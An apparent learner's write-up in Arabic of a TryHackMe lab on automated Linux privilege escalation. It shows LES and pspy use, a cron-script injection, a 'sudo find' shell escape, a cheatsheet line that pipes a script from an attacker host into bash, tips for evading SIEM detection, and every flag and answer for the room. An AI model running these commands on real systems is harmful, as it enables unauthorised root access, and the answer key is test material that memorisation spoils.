

# توثيق غرفة أتمتة تصعيد صلاحيات لينكس (Linux Privilege Escalation: Automation)

---

## 1. بيانات المديول والغرفة (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثالث عشر — تصعيد الصلاحيات (13-PRIVILEGE-ESCALATION)
* **اسم الغرفة:** أتمتة تصعيد صلاحيات لينكس (Linux Privilege Escalation: Automation)
* **المعرف البرمجي (Slug):** `linprivautomation`
* **الرابط المباشر:** [TryHackMe Linux Privilege Escalation: Automation](https://tryhackme.com/room/linprivautomation)
* **مستوى الصعوبة:** متوسط (Medium)
* **النوع:** غرفة عملية وتطبيق استغلال متقدم (Walkthrough & Hands-on Exploitation Lab)
* **سيناريو التقييم:** تسريع التعداد الأمني واكتشاف ثغرات النواة والبرمجيات العامة عبر الأدوات الآلية، ومراقبة العمليات الحية عبر `pspy`، وحل تحدي تصعيد صلاحيات متعدد المراحل
* **عدد المهام:** 6 مهام
* **عدد الأسئلة:** 7 أسئلة تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Linux Privilege Escalation: Automation** المحطة الرابعة في مديول تصعيد الصلاحيات، حيث تنقل المختبر من التعداد اليدوي البحت إلى توظيف **أدوات الأتمتة (Automation Tools)** ومراقبة العمليات في الوقت الفعلي لتسريع وتوسيع نطاق التقييم الأمني للأنظمة.

تُركز الغرفة على ثلاثة محاور رئيسية:
1. **أدوات الفحص والمسح التلقائي:** توظيف أدوات مثل LinPEAS و LinEnum و Linux Exploit Suggester (LES) لتحديد التكوينات الخاطئة واقتراح ثغرات النواة والبرمجيات المحتملة (`CVE-2025-32463`).
2. **تقييم واستغلال الثغرات العامة (Public Exploits):** التدقيق في شفرات الاستغلال المتاحة وتصريفها وتشغيلها بأمان للحصول على صلاحيات الجذر (`THM{splo1ts-r-public}`).
3. **مراقبة العمليات الحية بدون صلاحيات (Process Snooping with `pspy`):** تجاوز "النقطة العمياء" لعمليات الاستعلام الدورية عبر استغلال واجهة `inotify` في نواة لينكس لرصد المهام المجدولة العابرة (Ephemeral Cron Jobs) مثل سكريبت `/var/local/syslog-backup.sh` واستغلال صلاحياته المفتوحة (`THM{getting-root-with-pspy}`).
4. **التحدي الشامل والتصعيد متعدد المراحل:** تطبيق التعداد المشترك للتحرك أفقياً من المستخدم `john` إلى المستخدم `frank` (`THM{Frank_Pwned_Privesc}`) ثم الصعود رأسياً إلى المستخدم الجذري `root` عبر استغلال أمر `sudo find` (`THM{Priv_Ch@l_D0ne}`).

---

## 3. مخطط سير العمل وأدوات الأتمتة (Automation & Process Snooping Architecture)

يوضح المخطط التالي كيفية تكامل أدوات الأتمتة ومراقبة العمليات في سلسلة تصعيد الصلاحيات:



---

## 4. المتطلبات والمفاهيم الأساسية (Prerequisites & Core Foundations)

### الأتمتة كأداة تسريع وليست بديلاً للفهم:
* الأدوات الآلية ليست بديلاً عن التحليل البشري؛ بل تجمع البيانات وتصنفها في ثوانٍ.
* يجب على مختبر الاختراق فهم ما تفعله الأداة في الخلفية وكيفية تدقيق النتائج لتجنب التخمين الخاطئ أو التسبب في عدم استقرار النظام.

### النقطة العمياء في فحص العمليات (Polling Blind Spot):
* عند استخدام أمر `ps aux`، يستعلم النظام عن جدول العمليات في لحظة زمنية معينة.
* المهام المجدولة السريعة التي تبدأ وتنهي عملها في أجزاء من الثانية تفلت من الفحص الدوري، مما يجعل أدوات المراقبة الحية القائمة على الأحداث (`pspy`) ضرورة قصوى.

---

## 5. أدوات الفحص والتعداد الآلي (LinPEAS / LES)

* **Linux Exploit Suggester (LES):**
  يقوم بتحليل نواة النظام ومعماريته ومقارنتها بقاعدة بيانات الثغرات المحلية:
  ```bash
  ./les.sh
  ```
  أظهرت النتيجة الثغرة الأولى تحت بند "Possible Exploits" وهي: **`CVE-2025-32463`**.

---

## 6. تقييم واستغلال الثغرات العامة (Public Exploits)

* **مراجعة الكود:** فحص كود الاستغلال للتأكد من عدم وجود أفعال تخريبية.
* **التصريف والتشغيل:**
  ```bash
  gcc exploit.c -o exploit
  ./exploit
  # الحصول على صدفة root
  cat /root/flag.txt
  # النتيجة: THM{splo1ts-r-public}
  ```

---

## 7. مراقبة العمليات الحية عبر `pspy`

* **مبدأ العمل:** استخدام نداءات `inotify` للنواة عند أي قراءة أو كتابة في `/etc` أو `/tmp` أو `/var` لقراءة `/proc` فوراً واستخراج وسائط الأوامر واسم المستخدم (`UID`).
* **التشغيل:**
  ```bash
  ./pspy64
  ```
* **النتيجة المكتشفة:**
  رصد عملية دورية تنفذ كل دقيقة بصلاحيات root:
  `/var/local/syslog-backup.sh`
* **الاستغلال:**
  كون السكريبت يمتلك صلاحية كتابة عامة (`0777`)، تم حقن أمر استخراج الفلاج:
  ```bash
  echo 'cat /root/flag.txt > /tmp/root_flag.txt && chmod 777 /tmp/root_flag.txt' >> /var/local/syslog-backup.sh
  cat /tmp/root_flag.txt
  # النتيجة: THM{getting-root-with-pspy}
  ```

---

## 8. سيناريو التحدي التراكمي وتصعيد الصلاحيات متعدد المراحل

### المرحلة الأولى: الانتقال الأفقي إلى `frank`:
* اكتشاف مهمة أو ملفات مخصصة تابعة للمستخدم `frank`.
* الحصول على صدفة أوامر كالمستخدم `frank` وقراءة الفلاج الأول:
  ```bash
  cat /home/frank/flag.txt
  # النتيجة: THM{Frank_Pwned_Privesc}
  ```

### المرحلة الثانية: التصعيد الرأسي إلى `root`:
* فحص صلاحيات Sudo:
  ```bash
  sudo -l
  # User frank may run (root) NOPASSWD: /usr/bin/find
  ```
* الهروب الصدفي عبر GTFOBins:
  ```bash
  sudo /usr/bin/find . -exec /bin/sh \; -quit
  # التحقق: id -> uid=0(root)
  cat /root/flag.txt
  # النتيجة: THM{Priv_Ch@l_D0ne}
  ```

---

## 9. توثيق وحلول المهام تفصيلياً (Task-by-Task Solutions)

### المهمة 01: المقدمة (Introduction)
* **الإجابة:** `No answer needed`

### المهمة 02: أدوات التعداد الآلي (Automated Enumeration Tools)
* **السؤال:** Run Linux Exploit Suggester to enumerate the target host. What CVE is listed as the first Possible Exploit the target is vulnerable to?
* **الإجابة:** `CVE-2025-32463`

### المهمة 03: استغلال الثغرات العامة (Privilege Escalation: Public Exploits)
* **السؤال:** Exploit the previously identified vulnerability. What is the content of /root/flag.txt?
* **الإجابة:** `THM{splo1ts-r-public}`

### المهمة 04: مراقبة العمليات عبر pspy (pspy - Unprivileged Process Monitoring)
* **السؤال 1:** What is the full path of the script vulnerable to privilege escalation?
  * **الإجابة:** `/var/local/syslog-backup.sh`
* **السؤال 2:** What is the flag in /root/flag.txt?
  * **الإجابة:** `THM{getting-root-with-pspy}`

### المهمة 05: التحدي الشامل (Challenge)
* **السؤال 1:** What are the contents of /home/frank/flag.txt?
  * **الإجابة:** `THM{Frank_Pwned_Privesc}`
* **السؤال 2:** What are the contents of /root/flag.txt?
  * **الإجابة:** `THM{Priv_Ch@l_D0ne}`

### المهمة 06: الخاتمة (Conclusion)
* **الإجابة:** `No answer needed`

---

## 10. اعتبارات الأمن التشغيلي (OpSec Considerations)

* **تقليل البصمة الجنائية:** تشغيل LinPEAS يُنشئ آلاف استدعاءات الملفات والعمليات مما يُحدث ضجيجاً تكتشفه أنظمة SIEM بسهولة. يُفضل تشغيل الأدوات الأكثر تخصصاً وهدوءاً مثل `pspy` لتحديد نواقل محددة.
* **التشغيل من الذاكرة:** احرص دائماً على تشغيل سكريبتات الفحص من مجلد الذاكرة المشتركة `/dev/shm` لتفادي الكتابة على القرص الصلب.

---

## 11. الهندسة الدفاعية والمعالجة (Defensive Hardening)

1. **الترقيع الدوري للأجهزة:** تثبيت التحديثات الأمنية للنواة والبرمجيات لسد الثغرات المكتشفة في LES.
2. **تأمين مسارات السكريبتات التنفيذية:** التأكد من أن سكريبتات النسخ الاحتياطي في `/var/local/` مملوكة لـ `root:root` بأذونات `0700` وليست قابلة للكتابة للجميع.
3. **تقييد صلاحيات Sudo:** حظر تشغيل أوامر مثل `find` بدون قيود من خلال ملف `sudoers`.

---

## 12. مرجع الأوامر والبطاقة السريعة (Cheatsheet)

| الإجراء | الأمر الموصى به |
| :--- | :--- |
| **اقتراح الثغرات** | `./les.sh` |
| **مراقبة العمليات الحية** | `./pspy64` أو `./pspy32` |
| **تشغيل LinPEAS من الذاكرة** | `curl -sL http://attacker/linpeas.sh \| bash` |
| **تصعيد الصلاحيات عبر find** | `sudo find . -exec /bin/sh \; -quit` |

---

## 13. المراجع والخطوات القادمة (References & Next Steps)

1. [PEASS-ng LinPEAS Suite](https://github.com/peass-ng/PEASS-ng)
2. [pspy Process Snooping](https://github.com/DominicBreuker/pspy)
3. [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
4. [GTFOBins Find Reference](https://gtfobins.github.io/gtfobins/find/)

### الخطوة التالية في المديول:
الانتقال إلى الغرفة الخامسة في المديول الثالث عشر:
**`05-WINDOWS-PRIVILEGE-ESCALATION`** لبدء دراسة وتطبيق تصعيد الصلاحيات على بيئات ويندوز (Windows Privilege Escalation).
